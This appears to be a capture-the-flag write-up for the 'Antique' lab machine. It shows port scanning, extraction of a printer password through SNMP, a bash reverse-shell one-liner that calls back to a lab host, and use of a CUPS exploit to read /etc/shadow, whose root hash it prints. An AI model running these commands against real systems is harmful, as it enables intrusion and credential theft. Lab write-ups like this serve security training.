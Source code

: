 1, enumerate the ports (nmap)
23/tcp telnet

2, check telnet service 
	`telnet 10.10.11.107`
not surprised: it needs auths
but it give us some messages:
	`HP JetDirect`
HP JetDirect 是惠普公司开发的一系列网络打印服务器和网络接口卡，用于将打印机直接连接到计算机网络中。这使得多台计算机可以通过网络共享打印机资源。JetDirect 设备支持多种网络协议，并且可以通过浏览器进行配置和管理

let's check some cve about it.

"HP JetDirect Printer - SNMP JetAdmin Device Password Disclosure"
https://www.exploit-db.com/exploits/22319

Given the last of any other paths on TCP, I’ll check back to a UDP scan. Scanning for UDP can be both slow and unreliable. I do find -sV to make the results more reliable (and probably slower), but even just looking a the top ten ports finds something interesting on Antique:
考虑到 TCP 上的最后一个其他路径，我将检查 UDP 扫描。扫描 UDP 可能既缓慢又不可靠。我确实发现 -sV 可以使结果更可靠（并且可能更慢），但即使只是查看前十个端口，也会在 Antique 上发现一些有趣的东西：

![](images/Pasted%20image%2020240723104024.png)
There we can see snmp open !
Let's exploit it.

Running snmpwalk on Antique will only return one entry:
	`snmpwalk -v 2c -c public 10.10.11.107`

these are hex representations of each byte. I’ll recognize that the numbers at the start of the list are in the hex ASCII range (0x20 - 0x7e), even if that ones at the end don’t make sense in that context.
![](images/Pasted%20image%2020240723104420.png)

try to use python to convert it to ASCII code.

	` nums = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"`
	`nums.split()`
	
I’ll use a Python list comprehension to loop over each item and apply the int function, converting each to a number, using base 16 to convert from hex
	`[int(x, 16) for x in nums.split()]`

Now I’ll want each converted to an ASCII character using chr:
	`[chr(int(x, 16)) for x in nums.split()]`
	`''.join([chr(int(x, 16)) for x in nums.split()])`

Finally, we get a maybe liked password:
"P@ssw0rd@123!!123"

And we successfully login !

3, get shell as user
when we press '?'
it would tell us we have get the ability to exec.(good news)

But when we want to make the reverse shell, it did not work.
So we have to find some trick skills to exec it.
Firstly we need check its terminal :
	`exec which bash`
Then we can try :
	`exec bash -c 'bash -i >& /dev/tcp/10.10.16.12/4444 0>&1'`
then shell got it.

4, Privilege Escalation
By using pspy64, we have known telnet.py is powerd by root
So it would be a interesting exploition of root

And we can check other ports.
	`netstat -tnlp`
tcp  127.0.0.1:631 
it is attactive for me, so let's curl it and check it.
	`<TITLE>Home - CUPS 1.6.1</TITLE>`
Let's search about it.

cups-root-file-read.sh | CVE-2012-5519
https://github.com/p1ckzi/CVE-2012-5519.git

we can use it get /etc/shadow or just directly to /root/root.txt
`root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::`


